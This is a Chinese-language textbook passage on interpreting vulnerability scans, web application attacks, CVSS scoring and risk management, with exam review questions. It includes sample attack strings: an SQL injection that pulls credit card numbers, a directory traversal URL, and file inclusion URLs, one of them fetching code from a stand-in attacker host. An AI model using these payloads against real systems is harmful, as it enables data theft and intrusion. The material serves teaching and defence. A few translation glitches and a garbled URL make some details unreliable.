如果 Web 服务器简单地将此请求传递给数据库服务器，它将执行以下操作（为了方便查看进行了简单的格式调整）：

```sql
SELECT ItemName, ItemDescription, ItemPrice
FROM Products
WHERE ItemName LIKE '%orange%' AND
ItemName LIKE '%tiger%' AND
ItemName LIKE '%pillow';
SELECT CustomerName, CreditCardNumber
FROM Orders;
--%'
```

该命令如果成功，将运行两个不同的 SQL 查询（由分号隔开）。第一个查询将检索产品信息，第二个查询将检索客户姓名和信用卡号列表。

防止 `SQL injection attacks` 的两种最佳方法是输入验证和对数据库访问强制执行最小权限限制。输入验证可确保用户不会向 Web 服务器提供意外的文本。它将阻止使用单引号（`'`），而该单引号是“跳出”原始 SQL 查询所必需的。最小权限限制了 Web 服务器可以访问的表，并可以防止用于处理目录信息请求的进程检索信用卡信息。

漏洞扫描器可以检测注入漏洞，例如图 7.16 所示的漏洞。当网络安全分析师注意到潜在的注入漏洞时，他们应该与开发者密切合作，以验证漏洞确实存在并修复受影响的代码。

### 跨站脚本

在 `cross-site scripting (XSS)` 攻击中，攻击者在网站上嵌入脚本命令，这些命令稍后将被访问该网站的毫无防备的游客执行。其核心目的是欺骗访问受信任网站的用户执行由不受信任第三方放置在那里的恶意代码。

跨站脚本攻击以两种不同的形式出现：

- `Persistent XSS` 攻击发生在攻击者能够实际将攻击代码存储在服务器上时。该代码保留在服务器上，等待用户请求受影响的内容。这些攻击被称为存储型 XSS 攻击。
- `Reflected XSS` 攻击发生在攻击者欺骗用户作为查询字符串或其他内容的一部分将攻击发送到服务器时。服务器随后将攻击返回给用户（反射），导致代码执行。


**图 7.16** SQL 注入漏洞

图 7.17 显示了在 Nessus 漏洞扫描期间检测到的 XSS 漏洞示例。

在扫描期间发现潜在 XSS 漏洞的网络安全分析师应与开发者合作，评估结果的有效性并实施适当的控制措施来防止此类攻击，例如输入验证。


**图 7.17** 跨站脚本漏洞

### 目录遍历

在 `directory traversal` 攻击中，攻击者向查询字符串中插入文件路径值，试图导航到位于通常未授权公共访问区域的文件。当文件名包含在查询字符串中，可能会发生此类攻击。例如，如果 Web 应用程序从远程存储设备检索策略文档，它可能会在查询字符串中包含策略名称，如下：

```
www.myserver.com/policy?document='aup.pdf'
```

Web 应用程序可能会看到此查询字符串，然后去策略存储库检索名为 `aup.pdf` 的文档。如果攻击者知道策略存储库与工资记录位于同一台服务器上，他们可能会尝试使用以下查询字符串来检索 Mike 的工资记录：

```
www.myserver.com/policy?document='../payroll/mike.pdf'
```

该查询字符串试图遍历存储服务器的目录结构，导航到策略文件夹的父目录，然后进入工资单目录。

开发者和安全专业人员应实施三类控制措施来防止目录遍历攻击。首先，应用程序设计应避免在用户可操作的字段（如查询字符串）中包含文件名。其次，输入验证应防止使用执行目录遍历所需的特殊字符。最后，存储服务器上的访问控制应限制 Web 服务器对已授权公共访问的文件的访问。

### 文件包含

`File inclusion attacks` 将目录遍历提升到了新的高度。文件包含攻击并不是简单地从操作系统检索文件并显示给攻击者，而是实际上执行文件中所包含的代码，允许攻击者欺骗 Web 服务器执行任意代码。

文件包含攻击有两种变体：

- `Local file inclusion (LFI)` 攻击试图执行存储在 Web 服务器其他位置的文件中的代码。其工作方式与目录遍历攻击非常相似。例如，攻击者可能会使用以下 URL 执行位于 Windows 服务器 `C:\www\uploads` 目录下的 `attack.exe` 文件：
- `www.mycompany.com/app.php?include=C:\www\uploads\attack.exe`
- `Remote file inclusion (RFI)` 攻击允许攻击者更进一步，执行存储在远程服务器上的代码。此类攻击特别危险，因为攻击者可以直接控制正在执行的代码，而无需先在本地服务器存储文件。例如，攻击者可能会使用此 URL 执行存储在远程服务器上的攻击文件：
- `www.mycompany.com/app.php?include=http://evil.attacker.com/attack.exe`

当攻击者发现文件包含漏洞时，他们通常利用它向服务器上传 *web shell*。允许攻击者在服务器上执行命令并在浏览器中查看结果。这种方法让攻击者通过常用的 HTTP 和 HTTPS 端口访问服务器，使其流量不易被安全工具检测。此外，攻击者甚至可能修复他们用于访问服务器的初始漏洞，以防止其他寻求控制服务器的攻击者发现它，或防止安全团队察觉到已成功的攻击。

### 请求伪造

`Request forgery` 攻击利用信任关系，并试图让用户在不知情的情况下对远程服务器执行命令。这类攻击有两种形式：跨站请求伪造（`CSRF`）和服务器端请求伪造（`SSRF`）。

# 跨站请求伪造 (CSRF/XSRF)

`Cross-site request forgery`（跨站请求伪造）攻击，简称 `XSRF` 或 `CSRF` 攻击，与跨站脚本攻击相似，但利用的是不同的信任关系。`XSS` 攻击利用的是用户对网站的信任，在用户的计算机上执行代码。而此类攻击则是利用了远程站点对用户系统的信任，从而代表用户执行命令。

`XSRF` 攻击的运作原理是基于一个合理的假设：用户通常同时登录了许多不同的网站。攻击者在其中一个网站中嵌入代码，向另一个网站发送命令。当用户点击第一个网站上的链接时，他们就在不知不觉的情况下向第二个网站发送了命令。如果该用户恰好登录了第二个网站，该命令就可能执行成功。

例如，考虑一个在线银行网站。想要从用户账户中窃取资金的攻击者可能会去在线论坛发布一条包含链接的消息。该链接实际上直接进入了转账网站，并发出了一条将资金转移到攻击者账户的命令。攻击者随后将链接留在论坛上，等待毫无防备的用户出现并点击链接。如果该用户恰好登录了银行网站，转账就成功了。

开发者应该保护其 Web 应用程序免受 `XSRF` 攻击。一种方法是创建使用安全令牌的网络应用程序，攻击者无法将这些令牌嵌入链接中。另一种保护措施是网站检查来自终端用户请求中的引用 URL，并仅接受来自自身网站的请求。

# 服务器端请求伪造 (SSRF)

`Server-side request forgery`（`SSRF`）攻击利用了类似的漏洞，但它们不是欺骗用户的浏览器访问 URL，而是欺骗服务器根据用户提供的输入访问 URL。当 Web 应用程序接受用户的 URL 作为输入并从该 URL 获取信息时，就会发生 `SSRF` 攻击。如果服务器可以访问非公开 URL，`SSRF` 攻击可能会无意中将这些信息泄露给攻击者。

# 识别与身份失效

针对身份和访问管理系统以及身份信息使用的常见方法有很多，每种方法都有常见的保护措施可以帮助修复它们。其中许多问题的核心是访问控制系统存在缺陷——设计不当或实现不当的访问控制系统使组织面临各种攻击。这些包括密码喷洒、凭据填充、冒充、中间人（on-path）和会话劫持攻击。

## 密码复用

由于用户于在多个站点上复用相同的密码，产生了两种常见的身份验证漏洞：

* `Password spraying`（密码喷洒）攻击发生在攻击者使用常用密码列表，并尝试用这些常用密码登录许多不同的用户账户时。攻击者只需要找到一个有效的用户名/密码组合即可获得系统的权限。当用户没有选择足够独特的密码时，这种攻击就会成功。
* `Credential stuffing`（凭据填充）攻击发生在攻击者获取了从某个网站泄露事件中窃取的用户名和密码列表，并使用它们尝试访问另一个可能与之无关的网站时。当用户在许多不同网站上复用相同的密码时，凭据填充攻击就会成功。


除了鼓励良好的密码管理实践外，管理员还可以通过要求在敏感系统中使用多因素身份验证，进一步保护自己免受密码复用漏洞的影响。

## 冒充

`Impersonation`（冒充）攻击发生在攻击者冒用合法用户的身份时。`OAuth` 开放重定向等安全问题可能导致冒充的发生。防止冒充可能需要更强的会话处理技术，例如在 `http://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html` 的 `OWASP` 会话管理备忘表中所找到的技术。其他类型的冒充可以通过保护攻击者可能在本地工作站或通过网络获取的会话标识符来防止。


FIGURE 7.18 Alice 与银行 Web 服务器通信

图 7.18 显示了正常的通信，其中 Alice 建立了一个 `HTTPS` 连接，然后与 Web 服务器进行安全通信。如果窃者看到与此连接相关的网络流量，他们无法读取通信内容，因为经过了加密。

然而，如果攻击者能够冒充银行 Web 服务器，如图 7.19

FIGURE 7.19 中间人攻击 (On-path attack)

会话或网络链路的端端加密可以帮助降低中间人攻击成功的概率，除非攻击者控制了端点或拥有加密密钥。

## 中间人攻击

`On-path attacks`（路径攻击），也称为 `man-in-the-middle` (`MitM`) 攻击，发生在攻击者能够干扰两个系统之间的通信流时。例如，想象名为 Alice 的用户试图与她的银行 Web 服务器通信，如[图 7.18](#c07.xhtml#c07-fig-0018）所示。

### 会话劫持

`Session hijacking`（会话劫持）侧重于接管已存在的会话，通过获取远程服务器用于验证会话的会话密钥或 Cookie，或者通过让会话通过攻击者控制的系统，使其参与会话。与冒充和中间人攻击类似，通过加密网络会话或链路或在本地系统上保护攻击者劫持会话需要获取的数据，可以帮助限制会话劫持的机会。

### 数据投毒

`Machine learning`（机器学习）是一门学科，旨在应用计算机科学和统计学的原理来揭示我们每天积累的数据中隐藏的知识。机器学习通过分析数据来发现趋势、分类记录，并帮助我们更高效地经营业务。

许多机器学习技术使用过去活动的训练数据集来生成一个可能用于预测未来的模型。如果攻击者能够修改或影响训练数据集的创建，他们就可以导致公司用于做出关键业务决策的模型发生变化。`Data poisoning`（数据投毒）攻击试图操纵训练数据集，导致机器学习算法创建不准确的模型。

漏洞扫描器通常使用通用漏洞评分系统（`CVSS`）对检测出的问题进行排序。`CVSS` 为每个漏洞提供了六项衡量指标：访问向量指标、访问复杂度指标、身份验证指标、机密性指标、完整性指标和可用性指标。这些指标共同反映了漏洞被成功利用的可能性以及其对组织可能产生的影响。

分析师在解释扫描结果时，应该留心常见问题。当扫描器错误地报告一个实际上并不存在的漏洞时，就会发生误报报告。如果分析师对结果的准确性产生怀疑，他们应该进行手动验证。在验证漏洞时，分析师应该利用自己的专业知识以及组织内其他人的相关领域专业知识。为了成功解释漏洞报告，分析师必须熟悉常见的漏洞类型。

## 考试要点

**解释漏洞扫描报告如何为网络安全分析师提供关键信息。** 漏洞扫描报告在提供系统中存在的漏洞详细信息外，还提供了关重要的严重程度和故障排除信息。报告通常包含触发漏洞报告的请求和响应，以及针对该问题的建议解决方案。分析师必须理解如何识别、验证和修复发生的漏洞。

**了解通用漏洞评分系统（`CVSS`）的。** `CVSS` 基础分在 10 分制上计算出一个标准衡量值，该值包含了利用漏洞所需的访问向量信息、攻击利用的复杂性以及执行攻击所需的身份验证。基础分还考虑了漏洞对受影响系统的机密性、完整性和可用性的影响。

**解释服务器和终端设备为何是漏洞常见的来源。** 缺少补丁和过时的操作系统是两个常见的漏洞来源，可以通过主动的设备维护轻松修复。缓冲区溢出、权限提升和任意代码执行攻击通常利用应用程序缺陷。支持不安全协议的设备也是漏洞的常见来源。

**解释关键基础设施和专用技术如何增加漏洞扫描的复杂性。** 网络安全分析师应该理解如何对移动设备和操作技术（`OT`）组件进行扫描和解释。识别扫描车辆、无人机、建筑自动化系统、物理访问控制系统和工业控制系统增加的难度。

**了解软件漏洞需要分析师与开发者之间的协作。** 尤其是 Web 容易受到 `SQL` 和 `XML` 注入攻击。所有软件都可能包含缓冲区、整数和堆溢出漏洞。修复这些问题通常需要重写代码并对漏洞应用程序进行重新扫描，以确认修复妥当。

## 实验练习

### 活动 7.1：解释漏洞扫描

在活动 6.2 中，你对你控制的网络运行了漏洞扫描。在本实验中，你将解释该漏洞扫描的结果。

仔细查看扫描结果，并为你的网络制定一个修复计划。该计划应仔细考虑每个漏洞的严重程度、每个漏洞可能是误报结果的可能性，以及完成修复所需的时间。

### 活动 7.2：分析 CVSS

在本实验中，你将解释漏洞扫描的结果以评估严重程度和影响。

仔细查看扫描结果，并为你的网络制定一个修复计划。该计划应仔细考虑每个漏洞的严重程度、每个漏洞可能是误报结果的可能性，以及完成修复所需的时间。

### 活动 7.3：修复漏洞

在本实验中，你将修复你在活动 7.1 中识别出的漏洞之一。

1. 执行修复。

2. 运行新的漏洞扫描以确认漏洞已修复。

## 复习题

1. Tom 正在查看漏洞扫描结果，发现其中一台服务器存在 IP 地址泄露。可能在使用哪种技术？

   - `TLS`

   - `NAT`

   - `SSH`

   - `VPN`

2. `CVSS` 指标中的哪一个包含攻击者执行攻击必须具备的访问类型信息？

   - `AV`

   - `C`

   - `PR`

   - `AC`

3. 攻击复杂度指标的以下值中哪一个表示指定的攻击最容易利用？

   - High（高）

   - Medium（中）

   - Low（低）

   - Severe（严重）

4. 机密性、完整性或可用性 `CVSS` 指标的以下值中哪一个表示系统被完全破解的可能性？

   - `N`

   - `L`

   - `M`

   - `H`

5. 目前可用的 `CVSS` 最新版本是什么？

   - 2.0

   - 2.5

   - 3.1

   - 3.2

6. 下列指标中哪一个未在 `CVSS` 利用性评分的计算中？

   - 攻击向量 (Attack vector)

   - 漏洞年龄 (Vulnerability age)

   - 攻击复杂度 (Attack complexity)

   - 所需权限 (Privileges required)

7. Kevin 最近发现了一个新的软件漏洞，并计算其 `CVSS` 基础分为 6.5。该漏洞属于哪种风险类别？

   - Low（低）

   - Medium（中）

   - High（高）

   - Critical（严重）

8. Tara 最近分析了漏洞扫描报告的结果，发现扫描器报告的漏洞并不存在，因为系统实际上已经打了补丁。发生了什么类型的错误？

   - 误报 (False positive)

   - 漏报 (False negative)

   - 真报 (True positive)

   - 真阴 (True negative)

9. 下列项中哪一个不是可能与漏洞扫描结果相关的常见信息来源？

   - 日志 (Logs)

   - 数据库表 (Database tables)

   - `SIEM`

   - 配置管理系统 (Configuration management system)

10. 生产网络应避免哪种操作系统？

    - Windows Server 2008 R2

    - Red Hat Enterprise Linux 9

    - Debian Linux 11

    - Ubuntu 22

11. 在哪种攻击中，攻击者在内存位置放置的信息比为该用途分配的更多？

    - `SQL` 注入

    - `LDAP` 注入

    - 跨站脚本 (Cross-site scripting)

    - 缓冲区溢出 (Buffer overflow)

12. Dirty COW 攻击是哪种漏洞的示例？

1. 恶意代码

2. 权限提升

3. 缓冲区溢出

4. `LDAP` 注入

13. 下列哪种协议不应在公共网络上使用？

1. `SSH`

2. `HTTPS`

3. `SFTP`

4. `Telnet`

14. Betty 正在为她创建的一个新公共网站选择传输加密协议。哪种协议是最佳选择？

1. `SSL 2.0`

2. `SSL 3.0`

3. `TLS 1.0`

4. `TLS 1.3`

15. 在对 Web 服务器进行漏洞扫描时，以下哪些情况不会导致证书警告？

1. 使用不受信任的 `CA`

2. 包含公共加密密钥

3. 证书过期

4. 证书名称不匹配

16. 哪种攻击取决于用户通常在同一个浏览器中同时登录许多网站这一？

1. `SQL` 注入

2. 跨站脚本 (`XSS`)

3. 跨站请求伪造 (`CSRF`)

4. 文件包含

17. Bonnie 在 Web 服务器日志中发现了一些条目，表明渗透测试人员尝试访问以下 URL：

`www.mycompany.com/sortusers.php?file=C:\uploads\attack.exe`

他们最可能尝试的是哪种攻击？

1. 反射型 `XSS`

2. 持久型 `XSS`

3. 本地文件包含

4. 远程文件包含

18. 下列哪个术语通常不用于描述物理设备连接到网络？

1. `IoT`

2. `IDS`

3. `SCADA`

4. `ICS`

19. Monica 发现一名攻击者在她管理的某个 Web 论坛上发布了一条信息，攻击访问该网站的用户。以下哪种攻击类型最可能发生了？

1. `SQL` 注入

2. 恶意软件注入

3. `LDAP` 注入

4. 跨站脚本

20. Alan 在攻击后正在审阅 Web 服务器日志，发现许多记录中来自终端用户的查询语句包含分号和单引号。他应该怀疑是哪种攻击？

1. `SQL` 注入

2. `LDAP` 注入

3. 跨站脚本

4. 缓冲区溢出

# 第 8 章：响应漏洞

在 第 6 章和第 7 章中，你学习了组织进行漏洞扫描以及解释扫描结果的各种方法。在本章中，我们将关注接下来的工作——组织应对其环境中存在的漏洞的方法。我们将从风险管理流程开始，然后深入探讨你可以响应漏洞的具体方法。

## 分析风险

我们生活在一个充满风险的世界里。如果你今天早上离开家开车去办公室，你遇到了许多风险。你可能卷入汽车祸、遇到列车延误、在人行道上被自行车撞到，甚至从电梯里的其他乘客那里感染了危险病毒。我们潜意识里知道这些风险，但并不会让它们让我们瘫痪。相反，我们采取简单的预防措施来帮助管理我们认为最可能干扰我们生活的风险。

在*企业风险管理 (ERM)* 计划中，组织采取正式的方法进行风险分析，从识别风险开始，持续到确定每种风险的严重程度，最后采用一种或多种*风险管理*策略来应对每种风险。

在我们深入研究风险评估过程之前，让我们定义几个在讨论中将用到的重要术语：

*   *威胁 (Threats)* 是任何可能对我们信息或信息系统的机密性、完整性和/或可用性产生不利影响的可能事件。

*   *漏洞 (Vulnerabilities)* 是我们系统或控制中的缺陷，可能会被威胁利用。

*   *风险 (Risks)* 发生在漏洞和威胁的交汇点。

*   `probability`（概率），即风险发生的可能性。我们可以将其表达为威胁在特定时间范围内（例如未来一年内）利用漏洞的百分比几。

*   `magnitude`（规模），或影响，如果风险真的发生，对组织产生的影响。我们可以将其表达为因风险而将遭受的财务成本，尽管还有其他可能的衡量标准。

通过使用这两个因素，我们可以结合概率和规模为每个风险分配一个概念性分数。这使得许多风险分析师使用此公式来表示风险的严重性：

<<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mi mathvariant="normal">Risk&#160;Severity</mi><mo>=</mo><mi mathvariant="normal">Probability</mi><mo>&#215;</mo><mi mathvariant="normal">Magnitude</mi></mrow></math> 

需要指出的是，这个方程并不总是必须从字面上解释。虽然在某些风险评估过程中你最终可能会将这些值相乘，但最好从概念上将其理解为通过结合概率和规模来确定风险的严重性。

当我们评估在街上被自行车或陨石击中的风险时，我们可以使用这些因素来评估风险的严重性。我们被自行车击中的概率可能很高。这类事故的影响规模可能是中等的，使我们愿意考虑采取措施来降低风险。被陨石击中显然具有灾难性的影响规模，但此类事件发生的概率极低，导致我们承认该风险并在不改变行为的情况下忽略。

### 业务影响分析

`business impact analysis (BIA)`（业务影响分析）是一种正式的风险优先级排序方法，允许组织以结构化的方式进行审查。`BIA` 遵循两种不同的分析方法：

*   `Quantitative risk assessments`（定量风险评估）在分析中使用数值数据，得出的评估允许对风险进行非常优先级排序。

*   `Qualitative risk assessments`（定性风险评估）用主观判断和分类代替严格的数值分析，允许对难以量化的风险进行评估。

随着组织寻求向利益相关者清晰沟通风险因素，他们通常结合定量和定性风险评估的元素。让我们回顾一下这些方法。

#### 定量风险评估

大多数定量风险评估过程遵循相似的方法，包括以下步骤：

1.  确定受风险影响资产的资产价值（`AV`）。该 `asset value (AV)` 以美元或其他货币表示，并可以根据组织的偏好，使用获取资产的成本、更换资产的成本或资产的折旧成本来确定。

2.  确定风险发生的可能性。风险分析师咨询领域专家并确定风险在某一年内发生的概率。这被表达为每年预计发生的次数，并描述为 `annualized rate of occurrence (ARO)`（年发生率）。预计每年发生两次的风险 `ARO` 为 `2.0`，而预计每年发生一次的风险 `ARO` 为 `1.0`。

3.  确定如果风险发生，将造成的损害金额。这被称为 `exposure factor (EF)`（暴露因子）。完全销毁资产的风险其 `EF` 为 `100%`，而会损坏资产一半的风险其 `EF` 为 `50%`。

4.  计算单次损失预期。`single loss expectancy (SLE)`（单次损失预期）通过 `AV` 乘以 `EF` 计算得出。

5.  计算年损失预期。`annualized loss expectancy (ALE)`（年损失预期）是 `SLE` 和 `ARO` 的乘积。

# 图 8.2 (#c08.xhtml#R_c08-fig-0002) 定性风险评估使用主观评分量表来评估概率和影响。

虽然使用定性技术评估的风险无法直接计算其财务影响，但这种风险评估量表使得风险优先级排序成为可能。例如，查看图 8.2 中的风险评估，我们可以确定该组织面临的最大风险是未加密设备被盗和鱼叉式网络钓鱼攻击。这两种风险都具有高概率和高影响。。如果我们正在考虑使用资金为数据中心增加更好的物理安全性，这项风险评估告诉我们，我们的时间和金钱可能花在移动设备的全盘加密和安全电子邮件网关上更好。

### 风险管理

完成风险评估后，组织可以将注意力转向处理这些风险。`Risk management`（风险管理）是系统处理组织所面临风险的过程。风险评估在风险管理过程中起着两个重要作用：

*   风险评估为确定风险优先级提供指导，以便优先处理概率和影响最大的风险。

*   定量风险评估有助于确定风险的潜在影响是否足以抵消采用风险管理方法所产生的成本。

风险经理应该完成风险评估，并为评估中包含的每种风险确定适当的管理策略。他们有四种策略可供选择：风险缓解、风险规避、风险转移和风险接受。在接几个章节中，我们将通过两个示例讨论这些这些策略。

首先，我们讨论与员工笔记本电脑被盗相关的财务风险。在例例中，我们假设笔记本电脑不包含任何未加密的敏感信息。我们正在管理的风险是丢失实际硬件的财务影响。

其次，我们讨论与针对组织网站的分布式拒绝服务攻击（`DDoS`）相关的业务风险。

我们使用这两个场景来帮助你理解在选择风险管理策略时可提供的不同选项，以及在该选择过程中涉及的权衡。

### 风险缓解

`Risk mitigation`（风险缓解）是通过应用安全控制措施来降低风险概率和/或影响的过程。风险缓解是最常见的风险管理策略，安全专业人员的大部分工作都围绕着通过安全控制的设计、实施和管理来缓解风险展开。许多此类控制措施涉及功能、性能和安全性之间的工程权衡。我们将在本章后面的部分讨论一些安全控制措施的示例。

当你选择缓解某种风险时，可能会应用一种安全控制措施或一系列安全控制措施。每种控制措施都应该降低风险发生的概率、风险发生时的影响，或者两者都降低（概率和影响）。

在我们的第一个场景中，我们担心组织的笔记本电脑被盗。如果我们想缓解该风险，可以从各种安全控制措施中进行选择。例如，为笔记本电脑购买防盗锁可能会减少盗窃发生的概率。

我们还可以选择购买设备注册服务，为设备提供防篡的注册标签，例如图 8.3 所示的 `STOP` 标签。当这些标签贴在设备上时，它们会对潜在的窃贼提供明显的警告，如图 8.3(a)所示。这对盗窃具有威慑作用，减少了笔记本电脑被盗的概率。如果小偷确实偷了设备并取掉了标签，它会留下永久残留物，如图 8.3(b)所示。任何发现设备的人都被指示联系注册供应商获取说明，从而减少了设备归还时盗窃的潜在影响。


# 图 8.3 (#c08.xhtml#R_c08-fig-0003) (a) 贴在设备上的 STOP 标签；(b) 尝试移除 STOP 标签后设备上残留的残留来源：(a) 和 (b) Doug Belfiore

在我们的第二个场景中，即针对组织网站的 `DDoS` 攻击，我们可以从几种缓解措施中进行选择。例如，我们可以购买更多的带宽和服务器容量，允许我们吸收 `DDoS` 攻击的轰炸，从而减少攻击的影响。我们还可以选择购买第三方 `DDoS` 缓解服务，防止流量到达我们的网络，从而减少攻击发生的概率。

## 风险规避

`Risk avoidance`（风险规避）是一种风险管理策略，通过改变业务实践来完全消除风险发生的可能性。风险规避最初看起来可能是一个非常理想的方法。毕竟，谁不想消除其组织面临的风险呢？然而，它也有一个巨大的缺点。风险规避策略通常会对业务产生严重的负面影响。

例如，考虑本章前面讨论的笔记本电脑被盗风险。我们可以采取风险规避策略，通过不允许员工购买或使用笔记本电脑来完全消除风险。这种方法非常笨拙，并且由于对员工生产力产生负面影响，可能会受到员工和经理的强烈反对。

同样，我们可以通过简单关闭网站来规避针对组织网站的 `DDoS` 攻击风险。如果没有网站被攻击，就没有 `DDoS` 攻击影响网站的风险。但业务领导者极不可能接受关闭网站作为一种可行方案。事实上，你可能会发现自己为了避免 `DDoS` 攻击而被迫关闭网站，这本身就是终极拒绝服务攻击！

## 风险转移

`Risk transference`（风险转移）是将风险的影响从遭受风险的组织转移到另一个实体。风险转移最常见的例子是购买涵盖风险的保险单。在购买保险时，客户向保险公司支付保费。作为交换，保险公司同意承担保单中指定风险的损失。

在笔记本电脑被盗的示例中，财产保险可能会涵盖该风险。如果员工的笔记本电脑被盗，保险单将提供资金来支付被盗设备的价值或更换设备的费用，取决于具体的类型。

财产保险单不太可能涵盖 `DDoS` 攻击。事实上，许多通用业务保险单都排除了所有网络安全风险。寻求此类攻击保障的组织应该购买网络安全保险，既可以是单独的保单，也可以作为现有业务保险单的附加条款。这种保障将偿还恢复运营的部分或全部费用，并可能涵盖攻击期间的收入损失。

## 风险接受

`Risk acceptance`（风险接受）是最后一种风险管理策略，其核心在于蓄意选择不采取其他风险管理策略，并在面对风险时 simply 保持正常运营。如果缓解风险的成本大于风险本身的影响，那么采取风险接受的方法可能是合理的。

在我们的笔记本电脑被窃示例中，我们可能会认为其他风险管理策略都是不适用的。例如，我们可能觉得电缆锁是一种不必要的负担，而且防盗寻回标签不太可能有效，导致我们没有可行的风险缓解策略。业务领导者可能要求员工配备笔记本设备，这使得“风险规避”不再考虑范围内。此外，笔记本电脑保险单的成本可能太高，无法证明其价值。在这种情况下，我们可能会决定直接接受这种风险，并在发生盗窃事件时支付被盗设备的费用。这就是风险接受。

在 `DDoS` 风险的情况下，我们可能会进行类似的分析，并决定风险缓解和转移策略成本过高。在我们继续运营网站的情况下，我们可能会接受 `DDoS` 攻击可能导致网站崩溃的风险继续运行。

## 实现安全控制措施

当组织分析其风险环境时，技术和业务领导者会确定保护其信息和系统的机密性、完整性和可用性所需的保护水平。他们通过编写组织希望实现的 `control objectives`（控制目标）来表达这些需求。这些控制目标是对所期望安全状态的陈述，但它们本身并不会执行安全活动。`Security controls`（安全控制措施）是实现组织安全目标的特定措施。

### 安全控制类别

安全控制措施根据其作用机制进行分类，即它们实现目标的方式进行分类。安全控制有三种不同的类别：

*   `Technical controls`（技术控制）在数字空间内强制机密性、完整性和可用性。技术安全控制的示例包括防火墙规则、访问控制列表、入侵防御系统和加密。

*   `Operational controls`（运营控制）包括我们建立的、用于以安全方式管理技术的流程。这些包括用户访问审查、日志监控和漏洞管理。

*   `Managerial controls`（管理控制）是侧重于风险管理过程机制的程序化机制。管理控制的示例包括定期的风险评估、安全规划演练，以及将安全整合到组织的变更管理、服务采购和项目管理实践中。

组织应该根据其为环境选择的标准或外部监管机构施加给它们的标准和参数，选择一组符合其控制目标的安全控制措施。例如，处理敏感信息的组织可能会决定，围绕该信息的机密性问题需要最高水平的控制。同时，他们可能会得出其网站的可用性并非至关重要的结论。考虑到这些因素，他们将投入大量资源用于敏感信息的机密性，而可能投入很少甚至没有时间和金钱来保护其网站免受拒绝服务攻击。

许多控制目标需要技术、运营和管理控制的结合。例如，一个组织可能有一个防止未经授权的访问数据中心的控制目标。他们可能通过实施生物识别访问控制（技术控制）、对授权的访问进行定期审查（运营控制）以及进行例行风险评估（管理控制）来实现这一目标。

### 安全控制类型

我们还可以根据其预期效果将安全控制分为不同的类型。安全控制的类型包括：

*   `Preventive controls`（预防性控制）旨在在安全问题发生之前将其阻止。防火墙和加密是预防性控制的示例。

*   `Detective controls`（检测性控制）识别已经发生的安全事件。入侵检测系统是检测性控制。

*   `Responsive controls`（响应性控制）帮助组织应对活跃的安全事件。使用可以分流并指导第一批响应人员的 24×7 安全运营中心是响应性控制的示例。

*   `Corrective controls`（纠正性控制）修复已经发生的安全问题。在勒索软件攻击后恢复备份是纠正性控制的示例。

*   `Compensating controls`（补偿性控制）旨在减轻与对安全策略所许可的例外相关的风险。

## 威胁分类

虽然有许多分类威胁的方法，但常见的分类包括区分已知威胁（你了解并可能拥有其有用信息的威胁）和未知威胁（你只能通过使用通用控制和流程来做准备的威胁）。零日威胁（Zero-day threats），或利用未知安全漏洞的威胁，是最常见的威胁类型之一。

高级持续威胁者，特别是拥有国家实力的者，通常获取漏洞信息并利用。

### 威胁研究与建模

组织通过开展威胁建模积极寻求理解可能面临的威胁。威胁建模考虑了许多因素，但常见的元素包括：

*   评估 `adversary capability`（对手能力），即攻击者的资源、意图和能力。

*   你正在评估的组织总 `attack surface`（总攻击面）。

*   列出可能的 `attack vectors`（攻击向量），即攻击者访问目标的手段。

*   如果攻击成功的影响。

*   攻击发生的可能性。

所有这些项目都可以评分，以帮助评估风险，并帮助组织理解其面临的威胁。

一旦组织建立了威胁模型，或将其作为威胁建模活动的一部分，他们将进行威胁研究。有很多类型的威胁研究供你或你的组织选择。你可能会查看网站、网段或攻击者的声誉，以确定他们是否有恶意行为的历史或习惯。这被称为 `threat reputation`（威胁声誉），它通常与 IP 地址或域名配合，但也存在文件声誉服务和数据馈。

你可以通过 Cisco 的 Talos Intelligence 声誉查询工具查看示例，地址为 `https://ososintelligence.com/reputation_center`，如图 8.4（c08.xhtml#c08-fig-0004）所示。注意，你可以看到主机所有者的 DNS 信息，以及电子邮件声誉、网络声誉、它发送了多少垃圾邮件以及它是否在已知恶意攻击者列表中。

行为评估对于内部威胁特别有用，因为内部威胁行为通常与工作或角色相关的任务难以区分。检测内部威胁行为高度依赖于所执行操作的上下文；对内部人员与之交互的所有系统、应用程序和网络的广泛视图；以及提供长期洞察的可用性。许多内部攻击依赖于特权账户滥用、对敏感信息的访问以及共享密码的使用。

另一种用于评估威胁的指标是 `indicators of compromise (IOCs)`（入侵指示物）。入侵指示是能够帮助识别攻击的取证证据或数据。与其他评估方法不同，入侵指示专门在攻击开始后才使用——尽管攻击可能仍在进行！尽管如此，这并不意味着它们对威胁评估没有用。

了解哪些 `IOCs` 与特定的威胁攻击者或常见的漏洞路径相关，可以帮助防御者采取适当措施防止进一步的入侵，并可能识别出威胁攻击者。它还能帮助防御者限制损害或阻止攻击进展。


**图 8.4** 单个主机的 Talos 信誉报告

## 管理计算环境

计算环境是由应用程序、操作系统、服务器、终端、网络设备和其他组件组成的复杂生态系统，这些组件相互作用以满足业务需求。这种复杂性也为漏洞的产生提供了机会，可能会威胁该环境的安全。组织可以采取重要行动来管理其计算活动，以降低风险。这些活动包括攻击面管理、变更和配置管理以及补丁管理。

### 攻击面管理

组织的 `attack surface`（攻击面）是所有对攻击者暴露并可能允许这些攻击者访问组织环境的系统和服务组合。攻击面包含了从边界防火墙到公共 Web 服务器，从移动的笔记本电脑到移动设备的所有内容。

寻求管理组织攻击面的网络安全分析师可能会从事各种活动。这些包括：

* `Edge discovery`（边缘发现）扫描，通过扫描属于组织的 IP 地址来识别任何公开暴露的系统或设备

* `Passive discovery`（被动发现）技术，通过监控入站和出站流量来检测其他扫描中未出现的设备

* `Security controls testing`（安全控制测试），验证组织的一系列安全控制措施是否运行正常

* `Penetration testing and adversary emulation`（渗透测试和对手模拟），旨在模拟对手的行为来发现组织安全控制措施中的缺陷

网络安全分析师随后可以使用这些发现和测试技术的结果对环境进行更改，以提高安全性。进行这些更改被称为 `attack surface reduction`（攻击面减少），因为它减少了潜在攻击者攻击组织的方式。

### 变更和配置管理

`Configuration management`（配置管理）跟踪特定终端设备的设置方式。配置管理同时跟踪操作系统设置和设备上安装的软件清单。`Change management`（变更管理）程序为组织提供了一个正式流程，用于识别、请求、批准和实施配置的变更。

